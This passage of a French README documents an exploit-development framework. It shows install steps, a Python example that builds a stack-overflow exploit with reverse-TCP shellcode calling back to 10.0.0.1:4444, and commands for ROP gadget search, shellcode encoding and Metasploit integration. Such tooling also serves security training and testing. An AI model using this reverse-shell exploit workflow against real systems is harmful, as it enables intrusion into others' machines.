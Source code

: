 ## 🚀 Déploiement et Usage

### ⚙️ **Installation Rapide**
```bash
# Clone du repository
git clone https://github.com/your-username/exploit-development.git
cd 16-exploit-development

# Setup de l'environnement
./scripts/setup.sh

# Installation des dépendances
pip install -r requirements.txt
sudo apt-get install -f dependencies.txt

# Configuration initiale
./scripts/configure.sh

# Tests de validation
python -m pytest tests/
```

### 🎯 **Utilisation Basique**
```python
# Exemple d'utilisation du framework
from src.exploitcraft import ExploitBuilder

# Création d'un nouvel exploit
exploit = ExploitBuilder("stack_overflow")
exploit.target = "vulnerable_app.exe"
exploit.offset = 146
exploit.bad_chars = b"\x00\x0a\x0d"

# Ajout de payload
exploit.add_shellcode("reverse_tcp", host="10.0.0.1", port=4444)

# Génération et test
payload = exploit.generate()
exploit.test(payload)
```

### 📋 **Commandes Principales**
```bash
# Génération d'exploits
./tools/exploit-generator.py --target app.exe --type overflow

# Recherche de gadgets ROP
./tools/rop-finder.py --binary app.exe --arch x64

# Encodage de shellcode
./tools/shellcode-encoder.py --payload reverse.bin --format c

# Test d'exploits
./scripts/test-exploit.sh exploits/stack_overflow.py

# Intégration Metasploit
./tools/msf-integrate.py --exploit custom_exploit.rb
```
